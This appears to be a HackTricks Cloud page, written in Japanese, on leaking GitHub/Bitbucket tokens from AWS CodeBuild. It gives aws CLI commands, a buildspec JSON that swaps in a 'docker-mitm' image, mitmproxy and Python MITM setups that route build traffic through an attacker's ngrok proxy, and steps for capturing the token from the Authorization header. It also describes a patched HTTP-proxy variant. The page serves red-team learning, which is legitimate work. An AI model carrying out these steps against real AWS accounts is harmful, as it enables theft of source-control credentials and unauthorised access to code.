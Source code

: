 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Github/Bitbucketに設定されたトークンの回復

まず、漏洩できるソース認証情報が設定されているか確認してください:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

もし、例えばGithubへの認証がアカウントに設定されていることがわかった場合、Codebuildを使ってプロジェクトのビルドを実行するために**特定のdockerイメージを使用させる**ことで、その**アクセス**（**GHトークンまたはOAuthトークン**）を**抽出**することができます。

この目的のために、**新しいCodebuildプロジェクトを作成する**か、既存のものの**環境を変更してDockerイメージを設定する**ことができます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは、**env変数`https_proxy`**、**`http_proxy`**、および**`SSL_CERT_FILE`**を設定する非常に基本的なDockerイメージです。これにより、**`https_proxy`**および**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL CERTを信頼することができます。

1. **自分のDocker MitMイメージを作成してアップロードする**
* リポジトリの指示に従って、プロキシIPアドレスを設定し、SSL証明書を設定して**dockerイメージをビルドします**。
* **`http_proxy`を設定しないでください**メタデータエンドポイントへのリクエストを傍受しないようにするためです。
* **`ngrok`**を使用して、`ngrok tcp 4444`のようにプロキシをホストに設定できます。
* Dockerイメージがビルドされたら、**パブリックリポジトリにアップロードします**（Dockerhub、ECR...）。
2. **環境を設定する**
* **新しいCodebuildプロジェクトを作成する**か、既存のものの環境を**変更します**。
* プロジェクトを**以前に生成したDockerイメージを使用する**ように設定します。

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **ホストにMitMプロキシを設定する**

* **Githubリポジトリ**に示されているように、次のようなものを使用できます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用された**mitmproxyのバージョンは9.0.1**であり、バージョン10ではこれが機能しない可能性があると報告されています。
{% endhint %}

4. **ビルドを実行し、資格情報をキャプチャする**

*   **Authorization**ヘッダーにトークンが表示されます：

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

これは、aws cliを使用して次のように行うこともできます

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTPプロトコル経由~~

{% hint style="success" %}
**この脆弱性は2023年2月20日の週のある時点でAWSによって修正されました（おそらく金曜日）。したがって、攻撃者はもはやこれを悪用できません :)**
{% endhint %}

**CodeBuildでの権限が昇格された攻撃者は、設定されたGithub/Bitbucketトークンを漏洩させることができる**か、またはOAuth経由で権限が設定されている場合、**コードにアクセスするために使用される一時的なOAuthトークンを漏洩させることができる**。

* 攻撃者は、環境変数**http\_proxy**と**https\_proxy**をCodeBuildプロジェクトに追加し、自分のマシンを指すことができます（例えば`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSの代わりにHTTPを使用するように変更します。例えば：\*\*http://\*\*github.com/carlospolop-forks/TestActions
* その後、プロキシ変数（http\_proxyおよびhttps\_proxy）が指すポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)の基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトをビルド**をクリックすると、**認証情報**が**平文**（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
これで攻撃者は自分のマシンからトークンを使用し、持っているすべての権限をリストし、CodeBuildサービスを直接使用するよりも簡単に（悪用）できるようになります。
{% endhint %}

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
